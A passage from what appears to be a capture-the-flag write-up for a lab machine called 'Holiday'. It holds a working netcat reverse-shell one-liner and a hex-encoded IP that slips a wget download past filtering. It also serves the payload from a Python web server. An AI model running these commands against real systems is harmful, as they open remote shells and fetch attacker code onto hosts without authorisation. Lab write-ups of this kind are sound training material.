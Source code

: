 now what we do is lets us create a reverse shell then use wget to get so that we can be able to get the reverse shell executed.

```sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 9001 >/tmp/f
```

so lets also code our IP to Hexadecimal using [cyberchef](https://gchq.github.io/CyberChef/#recipe=Change_IP_format('Dotted%20Decimal','Hex')&input=MTAuMTAuMTQuMTU) remeber to add the `x`

to be `0xa0a0e0f`

![](/Linux/Linux-Hard/Holiday/Screenshots/cyberchef.png)

but first lets set a listerner

```sh
python -m http.server 80 
```

![](/Linux/Linux-Hard/Holiday/Screenshots/httpserver.png)

```sh
wget+0xa0a0e0f/shell
```
